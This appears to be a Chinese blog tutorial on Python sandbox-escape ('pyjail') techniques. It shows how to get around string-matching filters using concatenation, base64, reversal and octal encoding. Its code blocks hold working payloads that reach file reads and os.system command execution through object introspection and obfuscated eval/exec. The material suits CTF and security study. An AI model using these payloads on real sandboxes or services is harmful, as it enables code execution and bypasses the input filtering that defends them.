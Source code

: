 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [dummykitty.github.io](https://dummykitty.github.io/posts/pyjail-bypass-02-%E5%AD%97%E7%AC%A6%E4%B8%B2%E5%8F%98%E6%8D%A2%E7%BB%95%E8%BF%87/)

> 绕过基于字符串匹配的过滤

绕过基于字符串匹配的过滤[](#绕过基于字符串匹配的过滤)
-----------------------------

### 字符串变换[](#字符串变换)

#### 字符串拼接[](#字符串拼接)

在我们的 payload 中，例如如下的 payload，`__builtins__` `file` 这些字符串如果被过滤了，就可以使用字符串变换的方式进行绕过。

```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('E:/passwd').read()

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__buil'+'tins__']['fi'+'le']('E:/passwd').read()
```

当然，如果过滤的是 `__class__` 或者 `__mro__` 这样的属性名，就无法采用变形来绕过了。

#### base64 变形[](#base64-变形)

base64 也可以运用到其中

```
>>> import base64
>>> base64.b64encode('__import__')
'X19pbXBvcnRfXw=='
>>> base64.b64encode('os')
'b3M='
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64')).system('calc')
```

#### 逆序[](#逆序)

```
>>> eval(')"imaohw"(metsys.)"so"(__tropmi__'[::-1])
kali
>>> exec(')"imaohw"(metsys.so ;so tropmi'[::-1])
kali
```

注意 exec 与 eval 在执行上有所差异。

#### 进制转换[](#进制转换)

八进制：

```
exec("print('RCE'); __import__('os').system('ls')")
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
```
